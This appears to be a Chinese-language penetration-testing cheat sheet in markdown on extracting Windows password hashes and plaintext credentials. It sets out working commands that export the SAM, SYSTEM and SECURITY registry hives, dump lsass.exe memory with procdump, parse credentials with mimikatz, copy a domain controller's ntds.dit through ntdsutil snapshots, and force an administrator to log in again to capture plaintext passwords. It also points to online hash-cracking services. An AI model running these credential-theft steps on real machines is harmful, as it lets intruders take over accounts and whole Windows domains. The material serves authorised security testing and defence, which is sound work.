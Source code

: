 # Windows Hash提取

## 0x00 基础知识

- LM Hash Windows Vista和Windows Server 2008以前的系统还会使用
- NTLM Hash
- Net-NTLM Hash 网络环境下NTLM认证中的hash

[Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D)
## 0x01 离线获取Hash
### 1. 导出SAM和SYSTEM表方法
#### （1）目标主机注册表导出文件
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
reg save hklm\security security.hive
```
#### （2）通过mimikatz导出Hash

```
$ ./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam /sam:sam.hive /system:system.hive
```
### 2. 导出lsass进程内存方法

#### （1）目标主机lsass.exe dump内存

[内网渗透-免杀抓取windows hash](https://www.freebuf.com/column/231880.html)介绍了一些方法，主要是为了过杀软，如果能登录3389可以直接用任务管理器右键导出lsass.exe的内存。

#### （2）通过mimikatz导出Hash
```
$ ./mimikatz.exe
mimikatz# sekurlsa::minidump 1.bin
mimikatz# sekurlsa::loginpasswords full
```

### 3. 导出域Hash ntds,dit
```
 创建快照
ntdsutil snapshot "activate instance ntds" create quit quit
GUID 为 {aa488f5b-40c7-4044-b24f-16fd041a6de2}

# 挂载快照
ntdsutil snapshot "mount GUID" quit quit

# 复制 ntds.dit
copy C:\$SNAP_201908200435_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

# 卸载快照
ntdsutil snapshot "unmount GUID" quit quit

# 删除快照
ntdsutil snapshot "delete GUID" quit quit

# 查询快照
ntdsutil snapshot "List All" quit quit
ntdsutil snapshot "List Mounted" quit quit
 ```
## 0x02 主机获取密码

### 获取明文密码

>在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。
当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass进程）不再保存明文口令。Mimikatz 将读不到密码明文。
但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）

以下是支持的系统:
Windows 7
Windows 8
Windows 8.1
Windows Server 2008
Windows Server 2012
Windows Server 2012R 2

- 原理：获取到内存文件lsass.exe进程(它用于本地安全和登陆策略)中存储的明文登录密码
利用前提：拿到了admin权限的cmd，管理员用密码登录机器，并运行了lsass.exe进程，把密码保存在内存文件lsass进程中。
抓取明文：手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码

procdump64.exe导出lsass.dmp
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
使用本地的mimikatz.exe读取lsass.dmp
```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"
```

## 0x03 破解 Hash 
>超好用，可惜已经停止服务了
- [Ophcrack 在线破解](https://www.objectif-securite.ch/en/ophcrack)

- [Cmd5在线破解](https://www.cmd5.com/)

## Ref

- https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D 
- https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html
- [内网渗透-免杀抓取windows hash](https://www.freebuf.com/column/231880.html)
